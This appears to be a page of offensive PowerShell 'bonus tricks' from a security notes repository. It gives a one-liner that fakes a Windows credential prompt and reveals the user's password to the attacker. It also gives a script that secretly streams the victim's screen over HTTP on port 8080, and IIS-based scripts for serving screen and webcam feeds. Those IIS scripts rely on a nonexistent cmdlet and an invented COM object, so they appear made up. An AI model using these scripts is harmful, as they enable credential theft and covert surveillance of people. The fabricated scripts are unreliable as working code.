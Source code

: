 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://0.0.0.0:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your screen capture files
$screenCapturePath = "C:\Path\To\Screen\Capture"

# Start the screen capture
$job = Start-Process powershell.exe "-command & { Get-ChildItem -Path C:\Path\To\Screen\Capture -Filter '*.jpg' -Recurse | Remove-Item }" -PassThru
$job2 = Start-ScreenCapture -Path $screenCapturePath

# Set up the web server to serve the screen capture
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'ScreenCapture' -PhysicalPath $screenCapturePath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```


## Serving Camera Feed on HTTP

This script does the following:

Imports the Windows PowerShell Web Server module.
Defines the path to your camera feed.
Starts the camera feed using the Windows Media Foundation APIs.
Sets up a virtual directory in the default web site that serves the camera feed.
Enables directory browsing and sets the directory browse flags.
Sets the web server to listen on port 8080.

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your camera feed
$cameraFeedPath = "C:\Path\To\Camera\Feed"

# Start the camera feed
$mediaSource = New-Object -ComObject 'MFMediaSource'
$mediaSource.OpenDevice("Video", "Integrated Webcam", $null, [System.Guid]::Empty)

# Set up the web server to serve the camera feed
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'CameraFeed' -PhysicalPath $cameraFeedPath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```
